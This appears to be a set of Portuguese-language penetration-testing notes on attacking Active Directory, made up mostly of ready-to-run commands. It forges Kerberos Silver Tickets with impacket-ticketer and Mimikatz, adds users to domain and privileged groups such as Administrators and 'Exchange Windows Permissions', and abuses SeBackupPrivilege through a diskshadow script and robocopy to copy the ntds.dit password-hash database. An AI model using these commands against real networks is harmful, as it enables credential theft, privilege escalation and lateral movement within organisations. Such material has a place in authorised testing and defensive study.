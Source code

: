 ## Silver Ticket

Impacket

    impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain domain.name -domain-sid <domain_sid> -nthash <ntlm_da_senha_do_spn> -dc-ip <hostname_dc> adm


Mimikatz

Esse tipo de ataque é interessante para fazer lateralização, dado que vários servidores podem ter a mesma conta de serviço.


    ./m.exe
    kerberos::golden /user:<usuario> /domain:corp.com /sid:<sid_do_dominio> /target:<dominio.local> /service:HTTP /rc4:<nthash> /ptt

## Adicionar usuário privilegiado

    net user <usuario> <senha> /add /domain
    
Adicionando em um grupo privilegiado

    net localgroup Administrators /add <usuario>

ou em um grupo de domínio

    net group "Exchange Windows Permissions" /add <usuario>

## Permissionamento de usuário

Esse ponto consistem em obter os hashes de senha dos usuários do AD utilizando a permissão de usuário SeBackupPrivilege do usuário:

Detectamos isso com o comando:

    whoami /priv

![qownnotes-media-GRqaSH](../../../media/qownnotes-media-GRqaSH.png)

Depois disso, temos de criar um scriptizinho:

    cat test.dsh

```
set context persistent nowriters
add volume c: alias test
create
expose %test% z:
```

Adequando o arquivo para leitura correto do SO Windows:

    uni2dos test.dsh

fazer o upload do arquivo na máquina alvo e executar os seguintes comandos:

    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    